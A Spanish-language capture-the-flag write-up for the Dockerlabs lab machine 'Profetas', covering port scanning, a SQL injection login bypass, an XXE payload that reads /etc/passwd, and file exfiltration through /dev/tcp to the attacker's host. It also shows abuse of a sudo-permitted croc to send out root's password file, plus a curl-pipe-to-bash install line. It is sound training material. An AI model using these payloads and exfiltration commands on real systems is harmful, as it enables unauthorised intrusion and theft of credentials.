









# 🖥️ Write-Up: [Profetas](https://dockerlabs.es)

## 📌 Información General
    - Nombre de la máquina: Profetas
    - Plataforma: Dockerlabs
    - Dificultad: Medio
    - Creador: mikisbd
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

La máquina Profetas tiene la ip **172.17.0.2**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina utilizando la herramienta **nmap**.

```bash
# Nmap 7.98 scan initiated Thu Feb 12 13:36:22 2026 as: /usr/lib/nmap/nmap -sS -p- --open --min-rate 5000 -n -Pn -oN allPorts 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

La máquina tiene abiertos los puertos **22** y **80**. Ahora vamos a ver que versiones y servicios se están ejecutando en ellos.

```bash
# Nmap 7.98 scan initiated Thu Feb 12 13:37:03 2026 as: /usr/lib/nmap/nmap -sS -p22,80 -sCV -n -Pn -oN target 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.000091s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 79:80:90:64:27:37:bc:e2:49:0c:27:c2:4a:09:f6:d0 (ECDSA)
|_  256 6b:05:29:59:af:75:4f:78:7b:f5:2b:2a:13:07:6d:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: ProfetaNet Access
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- El puerto 22 está ejecutando un servicio de OpenSSH.  
- El puerto 80 está ejecutando un servicio web con Apache.

### Puerto 80

Accedemos con el navegador y vemos un panel de login.

Podemos acceder introduciendo cualquier usuario y contraseña. Una vez dentro vemos un sistema de monitoreo que genera valores aleatorios y una cadena de texto en base64.



```bash
echo 'cmVjdWVyZGEuLi4gdHUgY29udHJhc2XxYSBlcyB0dSB1c3Vhcmlv' | base64 -d
```

Obtenemos --> **recuerda... tu contraseña es tu usuario**, esto nos servirá más adelante.

Realizamos una enumeración de subdirectorios utilizando **gobuster**



Accedemos al directorio **/admin.php** y encontramos otro panel de login.


Si probamos un usuario y contraseña cualesquiera nos da una pista sobre un usuario, **notadmin**, por lo que vamos a probar diferentes técnicas con él.

## 🔥 Explotación

Vamos a introducir en el campo de usuario **notadmin** y en la contraseña una **SQL injection** para intentar bypassear el registro **'or 1=1-- -**

Para poder enviar estas credenciales debemos de hacer click derecho en la página, seleccionar **Inspect** y eliminar el **type=email** del input de usuario.



Conseguimos acceder al **dashboard.php**, una vez dentro podemos acceder a un portal interno, el cual procesa **XML**. Así que vamos a probar con una **XXE Injection**.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```



Funciona y conseguimos leer el **/etc/passwd**, con el que descubrimos dos usuarios, **jeremias** y **ezequiel**.

Teniendo estos dos usuarios y recordando la pista que obtuvimos en la cadena en base64, intentamos acceder al servicio ssh.

## 🔑 Acceso SSH
### Jeremias

Conseguimos entrar con las credenciales **jeremias** : **jeremias**

Tenemos la flag de user y un archivo **ezequiel.pyc**, es un compilado de python.



## 🧗 Escalada de Privilegios
### Ezequiel

Para decompilarlo vamos a usar la web **https://pylingual.io** pero primero nos pasamos el archivo a nuestra máquina. Para ello:

- Nos ponemos en escucha en nuestra máquina con **Netcat** y redirigimos la salida a un archivo que llamaremos de la misma forma que el original.
```bash
nc -nlvp 100 > ezequiel.pyc
```

- Ahora en la máquina víctima nos mandamos el archivo.
```bash
cat ezequiel.pyc >/dev/tcp/172.17.0.1/100
```

Una vez conseguido el archivo, lo subimos a la web anterior y obtenemos el código original de python.



La parte que nos interesa es el contenido esas dos variables, _p1 y _p2, ya que al combinarlas obtenemos la contraseña del usuario **ezequiel** --> **234r3fsd2-34fsdrr32**

### Root

Nos convertimos en **ezequiel** con esa contraseña. En su directorio encontramos un archivo **acces0.txt** que nos dice donde se encuentra la contraseña del usuario **root**

```
Hola hijo mio, te he dejado mi pwd dentro mi directorio /root/passw0rd_r00t.txt. Firmado: root
```

Si revisamos los permisos **sudoers** de nuestro usuario vemos que puede ejecutar **croc** como **root**.

**Croc** es una herramienta para enviar archivos, así que como podemos utilizarla como **root** nos vamos a enviar a nuestro equipo el archivo que contiene la contraseña.

**NOTA**: Si **croc** no está instalada en nuestro equipo podemos usar el siguiente comando para instalarlo `curl https://getcroc.schollz.com | bash`

En la máquina victima nos mandamos el archivo con **croc**. Esto nos genera dos códigos, uno para Windows y otro para Linux/Mac, en nuestro caso copiamos el de Linux.



En nuestra máquina ejecutamos **croc**, introducimos el código anterior y obtenemos el archivo.



Y usamos las credenciales **root** : **fl4sk1pwd**

